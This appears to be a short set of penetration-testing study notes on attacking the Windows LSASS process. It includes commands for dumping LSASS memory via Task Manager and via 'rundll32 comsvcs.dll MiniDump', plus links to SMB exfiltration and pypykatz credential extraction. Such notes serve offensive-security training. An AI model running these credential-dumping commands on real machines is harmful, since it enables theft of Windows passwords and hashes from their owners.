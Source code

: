 # Attacking LSASS

* \
  Upon initial logon, LSASS will:
  * Cache credentials locally in memory
  * Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
  * Enforce security policies
  * Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory

#### Task Manager Method

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

* to copy files use
  * [Create SMB server Linux (HACK)](app://obsidian.md/Create%20SMB%20server%20Linux%20\(HACK\))

#### Rundll32.exe & Comsvcs.dll Method

* modern anti-virus tools recognize this method as malicious activity.
* Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`.
* This can be done from cmd or PowerShell:

**Finding LSASS PID in cmd**

```cmd-session
tasklist /svc
```

**Finding LSASS PID in PowerShell**

```powershell-session
Get-Process lsass
```

**Creating lsass.dmp using PowerShell**

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

* to copy files use
  * [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

### Using Pypykatz to Extract Credentials

* [pypykatz.md](pypykatz.md "mention")
